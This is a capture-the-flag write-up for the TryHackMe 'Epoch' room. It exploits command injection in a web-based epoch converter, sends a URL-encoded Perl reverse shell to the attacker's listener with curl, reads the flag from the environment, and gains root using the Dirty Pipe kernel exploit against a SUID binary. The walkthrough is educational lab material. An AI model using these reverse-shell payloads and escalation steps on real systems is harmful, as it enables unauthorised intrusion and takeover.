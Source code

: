 # THM/Epoch ⌛
## Command Injection
Normally an `nmap` scan of the target is needed but the room harbours no illusions that the entry point for this box lies on a web interface on port 80 and features a command injection vulnerability, so we'll start there.
The web page features a simple program that allows users to convert Epoch to UTC...
*
Submitting anything other than a date seems to throw an `exit 1` code but after only a moment it can be seen that the `&` symbol allows users to add additional code after a date is provided:
*
No interception of the request was needed via Burp Suite. Already we have command injection.
## 🦶 Foothold
At this point we can navigate the system to some degree just using command injection but having a shell on the system makes our life much easier.  
The `which` command was used to try to find common programs like netcat for this purpose of creating a reverse shell but it appears these are unavailable to us since searching for programs like `nc`, `netcat`, `socat`, `python`, etc, all throw `exit 1` errors.  
However `perl` is available and we can see this by using `which perl`:
*
A reverse shell can be created with `perl`.  
A popular resource for reverse shells is pentest monkey's reverse shell cheat sheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet which includes one per `perl`.
In our terminal we set up a listener on port 9999 with `nc`:  
```
nc -lnvp 9999
```
The `curl` command was used to make a web request to the Epoch to UTC Converter webpage. The web request also contains a year, the `&` symbol and then the perl reverse shell to our attacking machine's' listening port:
```
curl http://10.10.227.130/?epoch=2022%26perl+-e+%27use+Socket%3B%24i%3D%2210.14.34.152%22%3B%24p%3D9999%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh+-i%22%29%3B%7D%3B%27
```
We now have a foothold on the machine as the user *challenge*.
### Terminal output:
```shell
┌──(p1ckzi㉿kali)-[~]                                                                     
└─$ nc -lnvp 9999                                                                         
Ncat: Version 7.93 ( https://nmap.org/ncat )                                               
Ncat: Listening on :::9999                                                                 
Ncat: Listening on 0.0.0.0:9999                                                           
Ncat: Connection from 10.10.227.130.                                                       
Ncat: Connection from 10.10.227.130:34444.                                                 
/bin/sh: 0: can't access tty; job control turned off                                       
$ whoami                                                                                   
challenge
```
* * *
## 🚩 Flag
Simple enumeration finds us the only flag we need for this box. We can do this will common tools such as `linpeas.sh` available at https://github.com/carlospolop/PEASS-ng/releases/download/20221106/linpeas.sh.  
But requesting the environment variables finds us the flag with the `env` command.
### Terminal Output:
```shell
$ env                                                                                     
HOSTNAME=e7c1352e71ec                                                                     
SHLVL=1                                           
HOME=/home/challenge                              
_=whoami                                          
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin       
PWD=/home/challenge                               
GOLANG_VERSION=1.15.7                             
FLAG=****{********************************}
```
Done! 🏆
* * *
## 🚩 Root
There'ss no flag for root but lets try to get that anyway.  
If the latest `linpeas.sh` was used you'll see that the box is vulnerable to `CVE-2022-0847`, also known as dirtypipe but this can also be confirmed using system commands.  
A good a resource on this can be found at https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/.  
The vulnerability exists in kernel versions between v5.8 and v5.15 and this can be identified using the `uname -r` command which shows that indeed, the box is running an older version...
### Terminal Output:
```shell
$ uname -r                                        
5.13.0-1014-aws
```
The flaw lies in Linux kernel memory management functionality with how pipe page caches can be merged and overwrite other page caches.  
For the exploit to work an attacker first needs to access a shell on a system through some means, as we have done. This may be with a regular person’s account, or a system accounts for running services that are vulnerable to remote attacks.  The attacker then needs to find an interesting file they can read to illegally overwrite. So for example, password and configuration files in `/etc` that are normally read-only are a likely choice for an attacker to target.  
The attacker can run a program to open a pipe, then fill the page caches with bytes to set the `PIPE_BUF_FLAG_CAN_MERGE` flag, then empty and replace it with the data they want to overwrite with. Then, `splice()` is called to merge the pages together. The `PIPE_BUF_FLAG_CAN_MERGE` flag causes the new data to be merged back into the original target file and circumvents the read-only restriction.
A proof-of-concept was released the day after the disclosure by author Blasty at https://haxx.in/ and shows how this flaw can be leveraged to create a SUID shell backdoor. By using the same technique to overwrite a file, the exploit overwrites an executable that has SUID permissions - and is able to run as the superuser. The exploit overwrites the command with a shell, runs it to create a SUID shell in `/tmp`, and then replaces the original executable.  
His proof-of-concept can be found at https://haxx.in/files/dirtypipez.c and does all the hard work for us.  
The file can be uploaded to the target using common methods (the `/tmp` directory has write access) and then compiled since the `gcc` command is also available to us:
```
gcc dirtypipez.c -o dirty
```
From there, we just need to provide an SUID binary to the executable we compiled.
We can find that using
```
find / -perm -u=s -type f 2>/dev/null
```
There's many resources for linux privilege escalation. One great one with many different techniques is https://book.hacktricks.xyz/linux-hardening/privilege-escalation and goes into depth on escalation using SUID binaries.
For our purpose we'll just use the first `/usr/bin/chfn` binary.
### Terminal Output:
```shell
$ find / -perm -u=s -type f 2>/dev/null                                                             
/usr/bin/chfn                                     
/usr/bin/umount                                   
/usr/bin/passwd                                   
/usr/bin/gpasswd                                  
/usr/bin/newgrp                                   
/usr/bin/chsh                                     
/usr/bin/su                                       
/usr/bin/mount
```
We can use the `chmod +x <file>` command to make our compiled exploit executable, and direct it at the SUID binary with:
```
chmod +x dirty
./dirty /usr/bin/chfn
```
We now have root on the box.
### Terminal output:
```shell
$ ./dirty
Usage: ./dirty SUID
$ ./dirty /usr/bin/chfn
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```
Epoch on https://tryhackme.com
